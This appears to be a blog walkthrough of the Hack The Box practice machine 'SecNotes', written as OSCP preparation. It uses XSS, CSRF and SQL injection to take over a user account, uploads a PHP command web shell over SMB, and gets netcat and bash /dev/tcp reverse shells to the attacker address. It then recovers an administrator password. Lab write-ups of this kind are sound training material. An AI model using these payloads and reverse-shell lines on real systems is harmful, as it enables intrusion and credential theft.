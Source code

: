 ```yaml
---
title: "SecNotes HTB"
date: 2024-07-02 21:55:00 +0800
categories: [SecNotes, Medium]
tags: [Secnotes]
---
```



![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*uMQqZEswmPNsTNV0HSvfeQ.jpeg)
Another Retired Machine in the path of progressing for the OSCP.
Reconnaissance:
Analyzing Nmap result:


we don’t really have that many ports to attack except 80 HTTP, 445 NetBIOS, and 8808 HTTP.

Enumeration:
Getting started with our 445 SMB, we don’t really have anything right now. Since an anonymous login is not allowed in this case. enum4linux or smbmap or smbclient. Has no use right now. There seems to be a website running on port 80 http. So, browsing to http://10.10.10.97 would let us redirected to the /login.html.


You can always try default credentials such as admin-password or user-password etc; And then wordlists or some SQL injections for fuzzing.

Method #1 Cross-Site Request Forgery:
Sign up now button:

Since, There is a signup button we can register a user ourselves, and logging in can grant us a new empty user.



By understanding these options one by one in hand. can help us understand what type of vulnerabilities were present in the web server manually.

Create New Note:

In the view source(Ctrl+U) I’ve seen the Note textarea box has been enclosed by <textarea> HTML tag. So, I’m gonna close it with </textarea> and use our script command. If in this case it doesn’t we will go crafting it further improvising.

For the POC (proof of concept) document.write(document.cookie) inside the <script> tag.


Saving it redirects to the home page. And it’s working. we just discovered an XSS Vulnerability.

Contact Us:


There is a message box that seems to help us contact Tyler. So, Tyler seems to be an authenticated user. After sending it, it just redirects with a Pop up on the home screen “Message Sent”.


Update Password:

Interestingly, They weren’t asking for the old password while updating the new password. This might help us combine all other functionalities together to get access to Tyler’s user account.

While listening on port 80 with nc -lvnp 80 on our attack machine and sending the message.



Gave us info, That there was a connection from port 51601 Windows Powershell from our victim machine. This means the Tyler user is automatically accessing the link.

Exploitation:
We this information in hand we can totally compromise the Tyler account😁. How?

Let’s Dive in,

While changing the password if intercept the request.


Right-click on the code and select the change request method.


Since Whatever link is being opened seems to be opened by Tyler. At this point. we could try injecting an HTML payload for a CMD shell.

But our end goal here is to change the password. Based on this burp suite request we can make Tyler open the link to change his own password.

http://10.10.10.97/change_pass.php?password=password&confirm_password=password&submit=submit
http:10.10.14.17

Now, let’s contact Tyler!!


With that, the password would be changed!!!!

Try logging, in with our new password and this should be working😁.


If this wasn’t working,


Method #2: Alternate way [SQL Injection]:
Since The server is been accessing the different notes with ID, So there should be a database running along with the web server.

Since horizontal access is prevented from accessing the ID of the note. Let’s start enumeration with the register. If we can get some account. The fact that you can create a password for a valid user is possible. Makes this more possible. You can fire up the burp suite and do some brute-forcing with the following SQL Injection list. To find the one that’s working.


This should be working since Select * from users WHERE “Hello OR 1=1 —

Always comes out to be TRUE.


Where “—” is for commenting out in HTML. This gonna work. Since The web server is vulnerable to SQL Injections.

Logging in with our new credentials should let us access the Tyler User. Since it seemed to be the only other valid user.



Getting a Shell:

Browsing through the notes we can spot there is a sub-directory and the other information looks like it is the username and password.

With all this let’s see if we access the SMB Shares. Since the Anonymous login didn’t work out. This might be our shot.

First, let’s verify that with the smbmap for detailed information on what’s there to come.

smbmap -H 10.10.10.97 -u tyler -p ‘92g!mA8BGjOirkL%OG*&’


There is a share we can access here and have read and write permissions. Let’s dive in!!

smbclient \\\\10.10.10.97\\new-site -U tyler

And Enter the password. That lets us to SMB Shell.



The files resemble the iisstart page we got on the port 8808.


Possibly these web servers are accessing files from these shares.

I tried generating a .aspx payload with msfvenom, but it didn’t work out. So, the web server seems to accept only php files. Fortunately for us, PHP files can call system commands, so let us craft a PHP file and upload it.


Fortunately for us, PHP files can call system commands, so let us craft a PHP file and upload it.


<?php echo “Shell”;system($_GET[‘cmd’]); ?>

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/shell.php

on SMB shell upload this payload using the put command. put shell.php


For getting a PowerShell we need a Netcat one-liner to be executed as a command. I’ll show you what I mean.

nc.exe 10.10.14.17 443 -e powershell

you can easily spot the nc.exe file in /usr/share/seclists/Web-Shells/FuzzDB if you’re using Kali Linux.

Be sure to upload Netcat and the payload again(it gets deleted after some time since the server completely blocks it).


Titidi dididi!! We got our Foothold with the powershell. with the same shell as smb but we have more control now🥳.


Grab the user flag🤧.



Getting a user flag is the hardest part for the Medium machine at Hackthebox.

Now now, Let’s hunt the root flag…😋


Privilege Escalation:
Now, as we have some foothold for the machine.

There is a file check-message.ps1 inside secnotes_contacts dir inside tyler’s directory.

Which has Tyler’s default password: “forested85sunk” which automatically changes every 30 seconds with this script. use these credentials for login, If your tired of using the sql injection or csrf.


With Netcat, I couldn’t access or run some basic commands. So, I have decided to upgrade the command shell from Netcat to the Meterpreter shell.

In addition to this, I have uploaded a step-by-step tutorial to upgrade the Netcat shell here.

Let’s browse around to see… what we have right now.


There seems to be a bash link file. Which is a good sign, bash files are executed at kernel-level access. Meaning it has root privileges.


But, When I tried executing it. it is not recognized. Seems like the file has been moved from Windows\System32 to somewhere else.

Let’s search for it.


Change the directory to that folder, And let’s see if it’s working.


Just as we thought, It does have the root privileges. So, For this to work, I have searched one-liner for reverse shells using bash || wanna Explore-More?.

bash -i >& /dev/tcp/10.10.14.17/443 0>&1


Running this together and listening for this port through Netcat.

bash.exe -c “bash -i >& /dev/tcp/10.10.14.17/443 0>&1”


nc -lvnp 443 on our kali machine.


We got the Root Shell. Since the desktop runs a WSL we are accessing a Ubuntu machine. The shell is so floppy.



Normally listing it makes the files hidden. Since, They were created default by bash command as binaries.

So, use ls -alps or ls -al


We can see there is a bash_history file, Looks interesting.

cat bash_history,


And we have an Administrator and its password in the history🤩🤩!!

Let’s Verify it with smbmap,

smbmap -u ’administrator’ -p ‘u6!4ZwgwOM#^OBf#Nwnh’ -H 10.10.10.97


We have all the privileges C$ and ADMIN$ SMB Share too!!🤧



Root flag🥳🫡!!!


Kanpai

In-Summary:

SecNotes is a medium-difficulty machine that highlights the risks associated with weak password change mechanisms, lack of CSRF protection, and insufficient validation of user input. It also teaches about Windows Subsystem for Linux enumeration.

Mind Map (Why we are doing, What we are doing?):


Made with xmind.
Follow me, for more Priv Escalations / Active Directory Concepts!! Thank you for reading :-)